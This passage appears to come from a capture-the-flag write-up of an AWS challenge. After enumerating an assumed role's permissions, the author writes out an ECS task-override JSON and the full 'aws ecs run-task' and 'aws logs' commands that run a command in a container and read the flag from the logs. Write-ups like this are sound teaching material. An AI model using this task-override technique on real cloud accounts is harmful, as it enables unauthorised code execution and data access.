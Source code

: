 ```
    }
}
```
![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FBcoZ85Yznmu3sS4oRcup%2Fimage.png?alt=media&token=b6cc3236-fde9-47b3-b179-a2dfbd70d43c)

We can see from the policy file that the role has `TetCtf2Stack-EcsExecutionRoleFD93B7A2-O8bY2QagMK25` the permission to enumerate ECR and get the container information. Armed with the relevant information, we can craft our json file. While more research on `run-task` i came accross a interesting [article](https://spin.atomicobject.com/override-database-migration/) showing how you are able to override the command thats being ran via the `--overrides` flag. I also added the script into it to try and get an RCE.
```
{
    "containerOverrides": [
        {
            "command": [
                "ls"
            ],
            "name": "CtfContainer"
        }
    ],
    "executionRoleArn": "arn:aws:iam::543303393859:role/TetCtf2Stack-EcsExecutionRoleFD93B7A2-O8bY2QagMK25",
    "taskRoleArn": "arn:aws:iam::543303393859:role/TetCtf2Stack-CtfTaskDefTaskRoleD17F896A-vJxGKfIFhChH"
}
```
```
aws ecs run-task --task-definition TetCtf2StackCtfTaskDefB40F186A:3 \

--cluster CtfEcsCluster \

--network-configuration "awsvpcConfiguration={subnets=[subnet-05dc4f12caf437c48],securityGroups=[sg-0636ad23bae6f21e7],assignPublicIp=ENABLED}" \

--overrides file://overrides.json \

--launch-type FARGATE --profile assume
```

The command execute succesfully, and we are able to get RCE, which also contains the flag in the root folder.
```
aws logs describe-log-streams --log-group-name /ecs/tet-ctf --profile assume

aws logs get-log-events --log-group-name /ecs/tet-ctf --log-stream-name CtfContainer/CtfContainer/6433c096d8b74339bc83e79baf2ac2ec --profile assume
```
![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2F89bZFHA5PeqTQa9Y246C%2Fimage.png?alt=media&token=eda8bb62-8775-4f06-9a2d-b7bf83f0f702)

yay i win and get flag.
